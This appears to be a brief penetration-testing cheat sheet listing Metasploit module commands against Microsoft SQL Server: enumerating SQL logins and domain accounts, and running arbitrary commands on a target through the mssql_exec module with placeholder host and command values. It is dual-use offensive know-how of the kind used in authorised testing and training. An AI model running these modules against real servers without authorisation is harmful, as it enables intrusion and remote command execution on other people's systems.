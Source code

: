 # MSSQL Enumeration using Metasploit
#### ENUMERATING USER LOGINS:
```
use auxiliary/admin/mssql/mssql_enum_sql_logins 
```

#### COMMAND EXECUTION
```
use auxiliary/admin/mssql/mssql_exec
set RHOST <TARGET>
set CMD <COMMAND TO EXECUTE>
exploit
```

#### ENUMERATING DOMAIN ACCOUNTS:
```
auxiliary/admin/mssql/mssql_enum_domain_accounts

```